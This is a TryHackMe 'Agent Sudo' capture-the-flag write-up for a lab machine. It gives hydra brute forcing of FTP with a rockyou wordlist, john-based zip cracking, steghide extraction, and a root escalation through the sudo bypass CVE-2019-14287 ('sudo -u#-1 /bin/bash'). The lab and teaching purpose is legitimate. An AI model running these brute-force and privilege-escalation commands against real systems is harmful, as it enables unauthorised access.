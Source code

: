 📝 CTF-Writeups/TryHackMe/AgentSudo/README.md

Here’s a cleaned-up Markdown version of your "Agent Sudo" CTF write-up:

# 🕵️ Agent Sudo - TryHackMe CTF Write-up

**Date:** 02 March 2025  
**Platform:** TryHackMe  
**CTF Type:** Boot2Root  
**Difficulty:** Beginner to Intermediate  

---

## 🔍 Enumeration

### Rustscan + Nmap
```bash
rustscan -a agentsudo.thm

nmap -sC -sV -oA agentsudo.thm

Open Ports:

    21 FTP (vsftpd 3.0.3)

    22 SSH (7.6p1 Linux)

    80 HTTP

🌐 Web Enumeration

No directories found initially.

Modified the User-Agent header to access a hidden page:

User-Agent: C

Accessed:

http://agentsudo.thm/agent_C_attention.php

Hidden Message Found

Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP.
Also, change your god damn password, it's weak!
- Agent R

🔐 SSH Brute Force

Found potential username: chris
Used hydra to brute-force FTP login:

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 4

Credentials Found:

    User: chris

    Password: crystal

🗜️ Cracking Zip Files
Convert zip to hashes

zip2john <file.zip> > hashes_for_john.txt

Crack with John the Ripper

john hashes_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt

Password: alien
📂 File Extraction
Extract contents with 7zip

The file contained base64-encoded content:

echo QXJlYTUx | base64 -d

Decoded Message: Area51
🖼️ Steganography
Extract hidden message from image

steghide extract -sf <filename>

Output file: messahe.txt
Password for steghide: hackerrules!
👥 User Enumeration

Found another user: james
SSH into James' account

ssh james@agentsudo.thm
# Password: hackerrules!

Download suspicious file

scp james@agentsudo.thm:/home/james/Alien_autspy.jpg .

🔎 Image Analysis

Googled Alien_autspy.jpg and found Roswell alien autopsy.
🛠️ Privilege Escalation

Discovered user james can run this:

(ALL, !root) /bin/bash

Used CVE-2019-14287 exploit:

sudo -u#-1 /bin/bash

→ Root access obtained!
🏁 Final Flag:

b53a02f55b57d4439e3341834d70c062

📚 References

    CVE-2019-14287 - sudo bypass
